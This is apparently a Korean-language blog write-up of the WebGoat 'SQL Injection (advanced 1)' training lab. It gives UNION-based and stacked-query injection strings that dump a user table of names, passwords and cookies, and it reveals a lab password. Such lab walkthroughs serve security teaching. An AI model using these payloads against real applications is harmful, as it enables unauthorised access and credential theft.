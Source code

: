 ```yaml
---
layout: post
title: WebGoat - SQL Injection (advanced 1)
date: 2021-01-10 17:30:00 +0900
category: Web_Hacking
---
```


# WebGoat - SQL Injection (advanced 1)

#### 다른 테이블에서 데이터 추출하기

<br/>

> SQL Injection 이란 악의적인 SQL 쿼리를 삽입하여 데이터베이스 조회, 삭제, 변조하는 공격이다. 

<br/>

WebGoat 데이터베이스의 여러 테이블 중 하나는 다음과 같다.

```shell
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

<br/>

#### a) UNION 또는 JOIN으로 테이블들 결합하기

이전 문제에 사용했던 'Smith'를 입력해보면 7개의 애트리뷰트를 가진 다른 테이블을 확인할 수 있다.

![webgoat_sqli_adv1](/public/img/webgoat_sqli_adv1.PNG)

<br/>

이 테이블과 user_system_data 테이블을 UNION으로 결합해보자. 이 때, 애트리뷰트의 개수를 맞춰주어야 한다. 

```shell
Smith' union select userid, user_name, password, cookie, null, null, null from user_system_data --
```

![webgoat_sqli2_adv2](/public/img/webgoat_sqli_adv2.PNG)

<br/>

다중 쿼리를 이용해서 문제를 풀 수도 있다.

```shell
'; select * from user_system_data --
```

![webgoat_sqli2_adv2](/public/img/webgoat_sqli_adv2-2.PNG)

<br/>

#### b) Dave의 password 추출하기

위의 결과를 통해 Dave의 password는 passW0rD임을 알 수 있다.

![webgoat_sqli2_adv3](/public/img/webgoat_sqli_adv3.PNG)




